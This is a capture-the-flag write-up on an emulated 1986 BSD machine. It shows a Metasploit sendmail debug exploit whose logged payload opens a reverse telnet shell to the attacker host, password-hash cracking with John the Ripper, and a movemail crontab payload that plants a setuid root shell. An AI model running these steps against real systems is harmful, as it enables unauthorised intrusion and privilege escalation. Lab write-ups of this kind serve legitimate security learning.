

# 2 of Diamonds - port 25

Looking at what's there, we see a SMTP service:

	220 2-of-diamonds Sendmail 5.51/5.17 ready at Wed, 3 Dec 86 14:47:00 PST

Once again searching in our Kali msfconsole we find a suitable ([exploit](https://www.exploit-db.com/exploits/45789)), with the description:

	This module exploits sendmail's well-known historical debug mode to
	escape to a shell and execute commands in the SMTP RCPT TO command.
	This vulnerability was exploited by the Morris worm in 1988-11-02.
	Cliff Stoll reports on the worm in the epilogue of The Cuckoo's Egg.

"The Cuckoo's Egg" becomes a recurring theme of this challenge, and is based on a [book](https://en.wikipedia.org/wiki/The_Cuckoo%27s_Egg) which can be found by [Googling](http://bayrampasamakina.com/tr/pdf_stoll_4_1.pdf).

Using metasploit, we get a shell.

```
msf5 exploit(unix/smtp/morris_sendmail_debug) > set rhosts 172.16.4.85
rhosts => 172.16.4.85
msf5 exploit(unix/smtp/morris_sendmail_debug) > set rport 25
rport => 25
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lhost 172.16.4.84
lhost => 172.16.4.84
msf5 exploit(unix/smtp/morris_sendmail_debug) > set lport 9999
lport => 9999
msf5 exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 172.16.4.84:9999
[*] 172.16.4.85:25 - Connecting to sendmail
[*] 172.16.4.85:25 - Enabling debug mode and sending exploit
[*] 172.16.4.85:25 - Sending: DEBUG
[*] 172.16.4.85:25 - Sending: MAIL FROM:<KEIVbqb5hl25IWvYxyiCy6uVKX5DSbE5hwv>
[*] 172.16.4.85:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 172.16.4.85:25 - Sending: DATA
[*] 172.16.4.85:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 172.16.4.85:25 - Sending: export PATH
[*] 172.16.4.85:25 - Sending: sh -c '(sleep 4179|telnet 172.16.4.84 9999|while : ; do sh && break; done 2>&1|telnet 172.16.4.84 9999 >/dev/null 2>&1 &)'
[*] 172.16.4.85:25 - Sending: .
[*] 172.16.4.85:25 - Sending: QUIT
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NzH560zCtmYsqE1M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: ": Trying...: not found\r\nsh: Connected: not found\r\nsh: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.4.84:9999 -> 172.16.4.85:58364) at 2018-12-03 22:50:11 +0000
[!] 172.16.4.85:25 - Do NOT type `exit', or else you may lose further shells!
[!] 172.16.4.85:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
```

We can find an email for user `hunter`:

```
$ cat /usr/spool/mail/hunter
From cliff Wed Sep 10 12:34:42 1986
Received: by 2-of-diamonds (5.51/5.17)
	id AA00579; Wed, 10 Sep 86 12:34:42 PDT
Date: Wed, 10 Sep 86 12:34:42 PDT
From: cliff (Cliff Stoll)
Message-Id: <8610210434.AA00579@2-of-diamonds>
To: mcnatt@26.0.0.113
Subject: What do you know about the nesting habits of cuckoos?
Status: RO

He went looking for your Gnu-Emacs move-mail file.
```

Sounds like the move-mail file is important, and is owned by `hunter`.

After doing more basic enumeration, we see something intesting:

```
cat /etc/passwd
root:*:0:10:Charlie &:/:/bin/csh
toor:*:0:10:Bourne-again Superuser:/:
daemon:*:1:31:The devil himself:/:
operator::2:28:System &:/usr/guest/operator:/bin/csh
uucp::66:1:UNIX-to-UNIX Copy:/usr/spool/uucppublic:/usr/lib/uucp/uucico
nobody:*:32767:9999:Unprivileged user:/nonexistent:/dev/null
notes:*:5:31:Notesfile maintainer:/usr/spool/notes:/bin/csh
karels:QOrZFUGpxDUlo:6:10:Mike &:/usr/guest/karels:/bin/csh
sam:Yd6H6R7ejeIP2:7:10:& Leffler:/usr/guest/sam:/bin/csh
wnj:ZDjXDBwXle2gc:8:10:Bill Joy:/usr/guest/wnj:/bin/csh
mckusick:6l7zMyp8dZLZU:201:10:Kirk &:/usr/guest/mckusick:/bin/csh
dmr:AiInt5qKdjmHs:10:31:Dennis Ritchie:/usr/guest/dmr:
ken:sq5UDrPlKj1nA:11:31:& Thompson:/usr/guest/ken:
shannon:NYqgD2jjeuozk:12:31:Bill &:/usr/guest/shannon:/bin/csh
peter:y5G5mbEX4HhOY:13:31:peter b. kessler:/usr/guest/peter:/bin/csh
kre:vpyVBWM3ARc0.:14:31:Robert Elz:/usr/guest/kre:/bin/csh
ingres:64c19dZOElp9I:267:74:& Group:/usr/ingres:/bin/csh
ralph:s.EZm/wQTqbro:16:31:& Campbell:/usr/guest/ralph:/bin/csh
linton:1/WWIjn5Sd8qM:19:31:Mark &:/usr/guest/linton:/bin/csh
sklower:p0taJy06Qye1g:20:31:Keith &:/usr/guest/sklower:/bin/csh
eric:PcEfNNJN.UHpM:22:31:& Allman:/usr/guest/eric:/usr/new/csh
rrh:lj1vXnxTAPnDc:23:31:Robert R. Henry:/usr/guest/rrh:/bin/csh
arnold:5vTJh54EqjZsU:25:31:Kenneth C R C &:/usr/guest/arnold:/bin/csh
jkf:G6cip/I8C792U:26:31:John Foderaro:/usr/guest/jkf:/bin/csh
ghg:FA/4weg1/wy2c:32:31:George Goble:/usr/guest/ghg:/bin/csh
bloom:n0QtVD80F82MM:33:10:Jim &:/usr/guest/bloom:/bin/csh
miriam:hnZ1ZK5H2qapE:36:10:& Amos:/usr/guest/miriam:/bin/csh
kjd:ogYPQZGnihezk:37:10:Kevin Dunlap:/usr/guest/kjd:/bin/csh
rwh:LReNSwE9gQF7w:38:10:Robert W. Henry:/usr/guest/rwh:/bin/csh
tef:OciUqGHcs9YOw:39:31:Thomas Ferrin:/usr/guest/tef:/bin/csh
van:STpwu/Ggmk78A:40:31:& Jacobson:/usr/guest/van:/bin/csh
rich:uxxJaRZvgyiPg:41:31:& Hyde:/usr/guest/rich:/bin/csh
jim:.6s.pzMqjyMrU:42:10:& McKie:/usr/guest/jim:/bin/csh
donn:5cJ5uHclmVJKA:43:31:& Seeley:/usr/guest/donn:/bin/csh
falcon:.MTZpW8TC8tqs:32766:31:Prof. Steven &:/usr/games:/usr/games/wargames
hunter:IE4EHKRqf6Wvo:32765:31:Hunter Hedges:/usr/guest/hunter:/bin/sh
```

Looks like the password hashes are stored here and can probably be easily cracked since they turned out to be DES.

At first I used a rockyou wordlist to see if there's some easy wins, using john the ripper to crack (although hashcat is probably faster):

```
root@kali:~# john --show hmm
karels:botched:6:10:Mike &:/usr/guest/karels:/bin/csh
sam:raygun:7:10:& Leffler:/usr/guest/sam:/bin/csh
mckusick:foobar:201:10:Kirk &:/usr/guest/mckusick:/bin/csh
dmr:dmac1:10:31:Dennis Ritchie:/usr/guest/dmr:
shannon:hacker:12:31:Bill &:/usr/guest/shannon:/bin/csh
peter:...hello:13:31:peter b. kessler:/usr/guest/peter:/bin/csh
ralph:whocares:16:31:& Campbell:/usr/guest/ralph:/bin/csh
eric:ithildin:22:31:& Allman:/usr/guest/eric:/usr/new/csh
ghg:biteme:32:31:George Goble:/usr/guest/ghg:/bin/csh
miriam:lancelot:36:10:& Amos:/usr/guest/miriam:/bin/csh
kjd:heartbre:37:10:Kevin Dunlap:/usr/guest/kjd:/bin/csh
tef:fatcat:39:31:Thomas Ferrin:/usr/guest/tef:/bin/csh
van:noexit:40:31:& Jacobson:/usr/guest/van:/bin/csh
rich:fun:41:31:& Hyde:/usr/guest/rich:/bin/csh
jim:haring:42:10:& McKie:/usr/guest/jim:/bin/csh
falcon:joshua:32766:31:Prof. Steven &:/usr/games:/usr/games/wargames

16 password hashes cracked, 13 left
```

I logged in as some users but there was nothing interesting in their home directory. This meant I had to crack more passwords, and `hunter` was the user I especially had in mind. The Cuckoo's Egg pretty much suggests it too.

	My hacker connected to Milnet address 26.0.0.113, logged in there as "Hunter,"
	and checked that he had a copy of Gnu-Emacs, then disappeared. 

	I watched the hacker fire up the Gnu-Emacs move-mail file. He was becoming super-user. 

```
oot@kali:~# john test
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: MaxLen = 13 is too large for the current hash type, reduced to 8
msfhack          (?)
```

After a while we get the password `msfhack`. So now we switch user `su hunter`. Going into his home directory `/usr/guest/hunter` we find the `movemail` binary.

I played around with `movemail` only a little bit, it took two arguments and seemed to copy files. At this point I reached for good old Google and found an [exploit](https://github.com/rapid7/metasploit-framework/pull/11049) for movemail. It could be the case that the creator of this challenge, @wvu-r7, released this too soon but if it works, then it works.

I copied the msf module into Kali, but then came across something strange/new. For the msf exploit to work it required a session, but I wasn't in a meterpreter session. I accidentally found something new to me, which is that I could use "Meta shell commands" in this basic shell `cmd/unix/reverse`. This means I could type meterpreter commands like `help`, and `background` and they would work even when it seems like it shouldn't. But this allowed me to use this msf module to get root.

```
su hunter
Password:msfhack

background

Background session 1? [y/N]  y
msf5 exploit(unix/smtp/morris_sendmail_debug) > use exploit/multi/ctf/game
msf5 exploit(multi/ctf/game) > set session 1
session => 1
msf5 exploit(multi/ctf/game) > run

[-] Exploit aborted due to failure: not-vulnerable: Set ForceExploit to override
[*] Exploit completed, but no session was created.
msf5 exploit(multi/ctf/game) > options

Module options (exploit/multi/ctf/game):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   MOVEMAIL  /etc/movemail    yes       Path to movemail
   SESSION   1                yes       The session to run this module on.


Payload options (cmd/unix/generic):

   Name  Current Setting                       Required  Description
   ----  ---------------                       --------  -----------
   CMD   cp /bin/sh /tmp && chmod u+s /tmp/sh  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   /usr/lib/crontab.local


msf5 exploit(multi/ctf/game) > set movemail /usr/guest/hunter/movemail
movemail => /usr/guest/hunter/movemail
msf5 exploit(multi/ctf/game) > run

[*] Preparing crontab with payload
[*] Creating writable /usr/lib/crontab.local
[+] Writing crontab to /usr/lib/crontab.local
[!] Please wait at least one minute for effect
[*] Exploit completed, but no session was created.
msf5 exploit(multi/ctf/game) > sessions -i 1
[*] Starting interaction with 1...

/tmp/sh -c sh
whoami
root
```

Looking around some more, we see that there are some files that only root can read.

```
pwd
/usr/games
ls -la
total 1397
drwxr-xr-x  3 root         1024 Jun  6  1986 .
drwxr-xr-x 24 root          512 Nov  6 18:18 ..
-rwxr-xr-x  1 root           42 Jun  6  1986 aardvark
-rwx------  1 root       163863 Nov  6 18:19 adventure
-rwxr-xr-x  1 root        10240 Jun  6  1986 arithmetic
-rwxr-xr-x  1 root        45056 Jun  6  1986 backgammon
-rwxr-xr-x  1 root        19456 Jun  6  1986 banner
-rwxr-xr-x  1 root       195584 Jun  6  1986 battlestar
-rwxr-xr-x  1 root         7168 Jun  6  1986 bcd
-rwxr-xr-x  1 root        78710 Jun  6  1986 bogdict
-rwxr-xr-x  1 root        24576 Jun  6  1986 boggle
-rwxr-xr-x  1 root        19456 Jun  6  1986 btlgammon
-rwxr-xr-x  1 root        37888 Jun  6  1986 canfield
-rwxr-xr-x  1 root        16384 Jun  6  1986 cfscores
-rwxr-xr-x  1 root         7168 Jun  6  1986 chess
-rwxr-xr-x  1 root          283 Jun  6  1986 ching
-rwxr-xr-x  1 root        39936 Jun  6  1986 cribbage
-rwxr-xr-x  1 root        26016 Jun  6  1986 doctor
-rwxr-xr-x  1 root        11264 Jun  6  1986 factor
-rwxr-xr-x  1 root        12288 Jun  6  1986 fish
-rws--x--x  1 daemon      14336 Jun  6  1986 fortune
-rwxr-xr-x  1 root        27648 Jun  6  1986 hangman
-rwxr-xr-x  1 root        37888 Jun  6  1986 hunt
drwxr-xr-x  4 root          512 Nov  6 18:19 lib
-rwxr-xr-x  1 root        44032 Jun  6  1986 mille
-rwxr-xr-x  1 root        37736 Jun  6  1986 monop
-rwxr-xr-x  1 root         9216 Jun  6  1986 number
-rwxr-xr-x  1 root        11264 Jun  6  1986 primes
-rwxr-xr-x  1 root        12288 Jun  6  1986 quiz
-rwxr-xr-x  1 root        15360 Jun  6  1986 rain
-rws--x--x  1 daemon      35840 Jun  6  1986 robots
-rws--x--x  1 daemon     113664 Jun  6  1986 rogue
-rwsr-xr-x  1 daemon      83968 Jun  6  1986 sail
-rwsr-xr-x  1 daemon      36864 Jun  6  1986 snake
-rwxr-xr-x  1 daemon      15360 Jun  6  1986 snscore
-rwxr-xr-x  1 root        54272 Jun  6  1986 teachgammon
-rwxr-xr-x  1 root        60416 Jun  6  1986 trek
-rwxr-xr-x  1 root          909 Jun  6  1986 wargames
-rwxr-xr-x  1 root        23552 Jun  6  1986 worm
-rwxr-xr-x  1 root        17408 Jun  6  1986 worms
-rwxr-xr-x  1 root        13312 Jun  6  1986 wump
-rwxr-xr-x  1 root         9216 Jun  6  1986 zork
```

The `2_of_diamonds.dat` file could be found in `/usr/games/lib`, but there was still more to do first.

```
cat /etc/motd

4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986


Would you like to play a game?
```

We already knew it was an old system based on the exploit for root, but this confirms it. There are also a lack of "modern" tools like `uname` and `base64` which we'll come to later. The last line about playing a game suggested that we should be playing something, and the `adventure` game seemed appropriate.

The game turned out to be an edited version of [Collossal Cave Adventure](https://en.wikiquote.org/wiki/Colossal_Cave_Adventure). A hint for this challenge by Metasploit was `You find a flag. Written on it is the magic word 'xyzzy'` which pretty much confirmed that this was the right path, since that's a magic word used by this game. 

Without a walkthrough, you could probably spend weeks here getting lost, so I found a [walkthrough](http://ifarchive.jmac.org/if-archive/solutions/adventure-walkthrough.txt) to use. The idea was to collect various items and bring it back to the building, since you're limited on how much you can carry. The only problem is that we have no idea where the flag is, and it look a little while getting used to the game since dwarves randomly show up to kill you if you're not prepared and miss reading their presence.

After a while, we find the flag!

```
You are in a secret canyon which exits to the north and east.

A huge green fierce dragon bars the way!

The dragon is sprawled out on a persian rug!!
kill dragon

With what?  Your bare hands?
yes

Congratulations!  You have just vanquished a dragon with your bare
Hands!  (unbelievable, isn't it?)

You are in a secret canyon which exits to the north and east.

There is a persian rug spread out on the floor!

The body of a huge green dead dragon is lying off to one side.

There is a flag here.
take flag
```

The funny thing was, that the first time I got the flag I tried to rush back to the building but got killed on the way by dwarves, arrrghhh! A little while later I captured the flag and dropped it off.

```
You are in a large room, with a passage to the south, a passage to the
west, and a wall of broken rock to the east.  There is a large "y2" on
A rock in the room's center.

A hollow voice says "plugh".
plugh

You're inside building.

Off to one side lies a glistening pearl!

There is a jewel-encrusted trident here!

There are rare spices here!

There is a golden chain lying in a heap on the floor!

There is a large sparkling nugget of gold here!

There are bars of silver here!

There is precious jewelry here!

There are many coins here!
drop flag

Congratulations! You have completed the 2 of Diamonds challenge.
The crypt(1) password for 2_of_diamonds.dat is `wyvern'.
```

Great, now we just have to decrypt the file using the password and exfiltrate it, using `crypt wyvern < 2_of_diamonds.dat > 2_of_diamonds.png`. Also note that the password was in the book:

	And an outsider would never guess our secret password,
	"wyvern"—how many people would think of a mythological winged dragon when guessing
	our password? 

At this point I had a small problem, I had the flag but didn't know how to exfiltrate it because there was no `base64`, and it was very late in the night so I had conveniently forgotten about the meta shell commands where I could have just used `download`. After looking around I spotted something that looked similar to `base64` which was `uuencode`.

The syntax was a bit strange at first, since first arg is the file to encode then second arg is the output file name after it's decoded. `uuencode 2_of_diamonds.png 2_of_diamonds.png` printed out encoded data similar to `base64`. After that I installed `uudecode` on Kali with `apt-get install sharutils` and ran `uudecode 2_of_diamonds.png`. Finally we have the 2 of Diamonds!

